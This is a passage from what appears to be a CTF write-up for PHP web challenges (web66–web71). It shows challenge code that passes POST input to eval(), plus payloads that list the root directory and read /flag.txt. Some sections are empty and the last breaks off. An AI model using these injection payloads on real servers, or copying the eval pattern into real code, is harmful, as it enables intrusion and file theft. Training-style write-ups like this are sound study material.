 pyload:

```
c=print_r(scandir("/"));
c=highlight_file('/flag.txt');
```

### web67

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

pyload:c=highlight_file('/flag.txt');

### web68

```php
include('/flag.txt');
```

### web69

```php

```

### web70

```php

```

### web71

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

```